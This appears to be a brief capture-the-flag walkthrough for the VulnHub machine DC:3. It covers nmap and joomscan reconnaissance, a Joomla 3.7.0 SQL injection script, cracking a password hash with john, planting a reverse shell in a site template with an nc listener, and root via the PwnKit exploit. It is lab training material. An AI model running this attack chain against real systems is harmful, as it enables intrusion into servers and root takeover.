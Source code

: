 
# DC:3 Walkthrough 

**VulnHub Link:** [DC:3](https://www.vulnhub.com/entry/dc-32,312/)
**Difficulty:** Easy
**Release Date:** 25 Apr 2020

## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.131
joomscan  --url "http://192.168.100.134/"

## 2.Exploitation

joomla 3.7.0 exploit ---> install https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/DC:3/joomblah.py

python joomblah.py http://192.168.100.134

hash found --> hash > hash.txt

## 3. Hash decoding
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

password found : scoopy

logged in and we changed content of index.php in templates section to reverse_shell.php

and before executing --> rlwrap nc -nvlp 1234

shell opened 

pkexec version is 0.105 --> Pwnkit Exploit

## 4. Previlige Escalation

from https://www.exploit-db.com/exploits/50689 --> we did all what is written there

and BINGO!!! Root session opened 

Root flag Captured..!
